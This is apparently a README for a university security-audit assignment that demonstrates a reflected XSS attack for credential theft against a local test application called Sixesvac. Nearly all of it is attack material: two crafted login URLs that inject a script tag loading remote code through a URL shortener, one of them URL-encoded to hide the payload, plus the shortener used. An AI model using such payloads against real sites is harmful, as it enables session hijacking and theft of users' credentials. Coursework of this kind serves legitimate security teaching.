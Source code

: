 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/xKNY7"></script>` (48 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70:%2F%2F%73%68%6F%72%74%75%72%6C.at%2FxKNY7%22%3E%3C%2F%73%63%72%69%70%74%3E` (126 caracteres en parámetro de consulta; discreto mediante codificación URL)

## Acortador de URL usado
https://www.shorturl.at/shortener.php
